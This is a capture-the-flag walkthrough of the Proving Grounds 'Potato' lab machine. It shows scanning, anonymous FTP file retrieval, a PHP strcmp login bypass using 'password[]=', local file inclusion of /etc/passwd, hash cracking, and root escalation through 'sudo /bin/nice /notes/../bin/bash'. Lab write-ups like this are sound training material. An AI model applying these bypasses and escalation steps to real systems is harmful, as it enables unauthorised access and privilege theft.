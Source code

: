 # PG Play
------------------------------------
### IP: 192.168.186.101
### Name: Potato
### Difficulty: Easy
### Community Rating: Intermediate
--------------------------------------------------

Nmap:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 192.168.186.101
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-26 07:28 CDT
Nmap scan report for 192.168.186.101
Host is up (0.082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.10 seconds
```

Looking at the page on port 80 we see a site seemingly under construction with an image of a potato:

![pgplay_potato_site.png](../assets/potato_assets/pgplay_potato_site.png)

I also notice FTP running on 2112 has anonymous access enabled and I can see there are a few file in there.

Lets kick off some directory fuzzing while we check out FTP:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ feroxbuster --url http://192.168.186.101 -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php html zip txt -o 80_dirs.txt
```

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ftp 192.168.186.101 2112
Connected to 192.168.186.101.
220 ProFTPD Server (Debian) [::ffff:192.168.186.101]
Name (192.168.186.101:ryan): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.174 !
230-
230-The local time is: Fri Jul 26 12:32:45 2024
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49064|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||15673|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901      837.18 KiB/s 
226 Transfer complete
901 bytes received in 00:00 (11.59 KiB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||62215|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54      165.31 KiB/s 
226 Transfer complete
54 bytes received in 00:00 (0.76 KiB/s)
```

Looking at welcome.msg:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T
```

Opening index.php.bak we find credentials to the `/dashboard.php` endpoint:

![pgplay_potato_index.png](../assets/potato_assets/pgplay_potato_index.png)

However navigating to http://192.168.186.101/dashboard.php we get a 404 error. 

Turning back to our directory fuzzing we find an `/admin` page.

![pgplay_potato_dirs.png](../assets/potato_assets/pgplay_potato_dirs.png)

Navigating here we do find a login panel:

![pgplay_potato_login.png](../assets/potato_assets/pgplay_potato_login.png)

But our discovered credentials don't work here:

![pgplay_potato_fail.png](../assets/potato_assets/pgplay_potato_fail.png)

### Exploitation/ Foothold

Going back and looking at the index.php.bak file more closely, we can see that the login panel is using `strcmp` for the POST request.

![pgplay_potato_strcmp.png](../assets/potato_assets/pgplay_potato_strcmp.png)

There is a nice writeup of this type of bypass at https://blog.0daylabs.com/2015/09/21/csaw-web-200-write-up/

Essentially if we pass in `password[]=whatever` the brackets will create an empty array, setting `password` to 0 and PHP will (for some reason?) render `NULL == 0` as true. I don't know much about PHP, but I think the fix for this may be using the operator `===` rather than `==`?

Lets capture a login request in Burp:

![pgplay_potato_burp.png](../assets/potato_assets/pgplay_potato_burp.png)

Nice, that worked, We can now access the dashboard:

![pgplay_potato_dashboard.png](../assets/potato_assets/pgplay_potato_dashboard.png)

Looking at the `logs` page we see we can select which log we'd like to view and it's displayed for us in browser.

![pgplay_potato_logs.png](../assets/potato_assets/pgplay_potato_logs.png)

Lets capture this in Burp and see if we are able to access anything else using the functionality.

Nice, with a little playing around we were able to access `/etc/passwd`:

![pgplay_potato_lfi1.png](../assets/potato_assets/pgplay_potato_lfi1.png)

And scrolling down in the file we find the password hash for webadmin:

```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/
```

Lets try cracking this with john:

![pgplay_potato_john.png](../assets/potato_assets/pgplay_potato_john.png)

We now have webadmin's credentials: `webadmin:dragon`

And we can use these to SSH in to the target:

```
┌──(ryan㉿kali)-[~/PG/Play/Potato]
└─$ ssh webadmin@192.168.186.101                                       
The authenticity of host '192.168.186.101 (192.168.186.101)' can't be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.186.101' (ED25519) to the list of known hosts.
webadmin@192.168.186.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
```

We can now access the local.txt flag:

![pgplay_potato_local_flag.png](../assets/potato_assets/pgplay_potato_local_flag.png)

### Privilege Escalation

Running `sudo -l` to see what our user can run with elevated permissions we find:

```
webadmin@serv:~$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

Interesting. The wildcard is very dangerous here. Lets get a root shell by running:

```
webadmin@serv:/$ sudo /bin/nice /notes/../bin/bash
root@serv:/# whoami
root
root@serv:/# id
uid=0(root) gid=0(root) groups=0(root)
```

We can now grab the final flag:

![pgplay_root_flag.png](../assets/potato_assets/pgplay_potato_root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------



